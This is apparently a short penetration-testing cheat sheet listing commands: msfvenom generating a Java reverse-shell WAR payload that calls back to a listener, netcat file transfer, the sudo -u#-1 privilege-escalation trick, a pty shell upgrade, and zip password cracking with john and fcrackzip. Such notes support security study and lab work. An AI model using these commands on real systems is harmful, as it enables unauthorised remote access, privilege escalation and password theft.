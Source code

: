 	xxd -r data.txt foobar.bin
	file foobar.bin

# OPENSSL COMMAND
## Generate pair of keys (public /private)

	openssl req -newkey rsa:2048 -nodes -keyout amanda.key -out amanda.csr

## Generate a private key from **p12 file**

	openssl pkcs12 -in amanda.p12 -nocerts -out amanda.key

### GENERATE A WAR FILE

	msfvenom -p java/shell_reverse_tcp lhost=10.10.0.1 lport=4321 -f war -o pwn.war

# Netcat
https://medium.com/@pentest_it/ncat-cheatsheet-ddc5f07d8533

## Transfert file with `netcat`

	nc -lvnp > file.txt
	nc <ip> <port> < file.txt

# Elevate command prompt

	sudo -u#-1 /bin/bash

	OR

	python -c 'import pty;pty.spawn("/bin/bash");'
	CTRL+Z
	stty raw -echo
	fg
	fg

# ICONV

	iconv [options] [-f from-encoding] [-t to-encoding] [inputfile]
	sudo iconv -f ISO-8859-1 -t UTF-8 /usr/share/wordlists/rockyou.txt > rockyou-utf8.txt

# ZIP Tools

## Crack Zip using `John`

	zip2john archive.zip > hash
	john hash --fork=4 -w=/home/user/rockyou.txt


## Crack zip files with `FRACKZIP`

	fcrackzip -p /usr/share/wordlists/rockyou.txt backup.zip -v -u -D

